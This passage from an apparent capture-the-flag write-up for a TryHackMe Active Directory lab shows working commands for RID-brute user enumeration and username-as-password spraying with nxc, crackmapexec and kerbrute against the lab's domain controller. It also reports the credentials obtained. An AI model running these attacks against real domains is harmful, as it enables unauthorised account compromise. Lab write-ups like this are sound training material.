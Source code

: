 Extract usernames from the output (removing domain prefixes and extra info), and saves them into `rids.txt`
```sh
nxc smb DC01.SOUPEDECODE.LOCAL -u 'guest' -p '' --rid-brute 2500 | cut -d '\' -f 2 | cut -d ' ' -f 1 > rids.txt
```
{: .wrap }

---

## User Flag

### Password Spraying

Using [ASREPRosting](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/asreproast.html) and spraying the common password yielded no results.
Spraying "username=password" succeeded, revealing valid credentials for user `ybob317`

#### option | nxc
```sh
nxc smb DC01.SOUPEDECODE.LOCAL -u rids.txt -p rids.txt --no-bruteforce --continue-on-success
```

![](/images/TryHackMe/Soupedecode01/ybob.png)

---

#### option || crackmapexec
same nxc
```sh
crackmapexec smb DC01.SOUPEDECODE.LOCAL -u rids.txt -p rids.txt --no-bruteforce --continue-on-success
```

---
 
#### option ||| kerbrute

```sh
kerbrute passwordspray --user-as-pass -d SOUPEDECODE.LOCAL --dc DC01.SOUPEDECODE.LOCAL rids.txt -v
```

---
